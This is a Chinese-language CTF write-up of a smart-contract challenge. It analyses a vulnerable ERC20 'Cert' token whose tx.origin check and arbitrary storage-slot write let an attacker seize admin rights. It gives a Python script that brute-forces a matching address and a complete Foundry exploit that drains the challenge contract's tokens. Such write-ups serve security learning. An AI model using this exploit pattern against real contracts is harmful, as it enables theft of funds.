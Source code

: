 # 11.challenge_pro

## 分析

### 1.全局观

两个合约：

- ApproveMain：题目初始化，拥有cert代币
- Cert：ERC20代币，增加了`safeCheek()`和`grant()`功能

### 2.任务

将ApproveMain合约拥有的所有ERC20代币归零

```solidity
    function Complete() public returns(bool) {
        if (cert.balanceOf(address(this)) == 0){
            isComplete = true;
            emit sendflag(msg.sender);
        }
        return isComplete;
    }
```

### 3.分析

`getToken()`糊弄人的，代币数量太大，不断除以2要非常久才能最后变成1除以2四舍五入等于0，所以这条路走不通。

唯一能操作的只有这两个方法：

```solidity
    // 特定地址和admin啥也不做，否则
    modifier safeCheek(address spender, uint256 amount) {
        if (uint160(tx.origin) & 0xffffff != 0xbeddC4 || tx.origin == admin) {
            _;
        } else {
            grant(spender, amount);
        }
    }

    // 将第amount个slot的值设置为tx.origin
    function grant(address spender, uint256 amount) internal {
        // spender必须是一个合约，并且代码长度得小于10，长度限制挺苛刻的
        require(spender.code.length > 0 && spender.code.length < 10);
        AddressSlot storage r;
        bytes32 slot = bytes32(amount);
        assembly {
            r.slot := slot
        }
        r.value = tx.origin;
    }
```

想要进入`grant()`，我们只能通过tx.origin的低3字节是`beddC4`，可以用下面的脚本爆破获得。

> 但是题目很巧，我们在remix常用的账户`0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`满足这个条件，因此CTF需要特殊EOA账户的时候我们可以关注一下remix、hardhat、ganache等工具给的默认账户，题目有时候会从这些地方出题。

```python
import random
from ecdsa import ecdsa
from eth_utils import keccak

g = ecdsa.generator_secp256k1

while True:
    private_key = random.randint(0, 1 << 256 - 1)
    public_key = private_key * g
    x = str(hex(public_key.x())[2:])
    x = ("00" * 32 + x)[-32 * 2:]
    y = str(hex(public_key.y())[2:])
    y = ("00" * 32 + y)[-32 * 2:]
    public_key_hex = x + y

    public_key_bytes = bytes.fromhex(public_key_hex)

    keccak_hash = keccak(public_key_bytes)

    address = keccak_hash[-20:].hex()

    if address[34:40] == "beddc4":
        print(hex(private_key))
        print("0x" + public_key_hex)
        address_with_prefix = "0x" + address
        print(address_with_prefix)
        break
```

虽然能操作slot，但是不是我们能控制改成什么内容，只能将值改成tx.origin，那么就是成为admin。

因此我们的任务是获得admin，然后`approve()`和`transferFrom()`来完成题目。

```solidity
    function _approve(
        address owner,
        address spender,
        uint256 amount
    ) internal {
        if(tx.origin==admin){
            require(msg.sender.code.length>0);
            _allowances[spender][tx.origin] = amount;
            return;
        }
        require(owner != address(0), "ERC20: approve from the zero address");
        require(spender != address(0), "ERC20: approve to the zero address");
        _allowances[owner][spender] = amount;
    }
```

需要注意：

- `grant()`方法中的`require(spender.code.length > 0 && spender.code.length < 10);`：普通的方式创建的合约会肯定会超过10，所以我们自己写bytecdoe然后用内联汇编创建合约。写个最简单的：`600180f3`，他是initcode，用来部署，然后其runtimecode是00，长度为1。

  ```
  [00]	PUSH1	01
  [02]	DUP1	
  [03]	RETURN
  ```

- `_approve()`有要求`require(msg.sender.code.length>0);`，因此我们需要写个Helper合约来帮我们

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/11.challenge_pro/ApproveMain.sol";

contract attackTest is Test {

    ApproveMain approveMain;
    Cert cert;

    function setUp() public{
        // 初始化题目
        approveMain = new ApproveMain();
        cert = approveMain.cert();
    }

    function test_isComplete() public {
        console.log("[before attack] level balance:",cert.balanceOf(address(approveMain)));

        // 1.创建一个合约用来作为spender
        address spender;
        {
            bytes memory bytecode = hex"600180f3";
            assembly {
                spender := create(0, add(bytecode, 0x20), mload(bytecode))
            }
            console.log("spender's length:",spender.code.length);
        }

        // 2.符合条件的EOA账户调用
        vm.startBroadcast(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);

        // 3.EOA账户成为admin
        cert.approve(address(spender),uint256(3));

        // 4.使用Helper帮助我们授权
        Helper helper = new Helper();
        helper.attack(address(cert),address(approveMain));

        // 5.授权完成之后，我们的EOA账户就可以取钱了
        cert.transferFrom(address(approveMain),address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4),cert.balanceOf(address(approveMain)));

        // 6.检查是否完成题目
        assertEq(approveMain.Complete(),true);
        console.log("[after attack] level balance:",cert.balanceOf(address(approveMain)));

        vm.stopBroadcast();
    }

}

contract Helper{
    function attack(address _addr, address _to) public{
        Cert(_addr).approve(_to,type(uint256).max);
    }
}
```

























































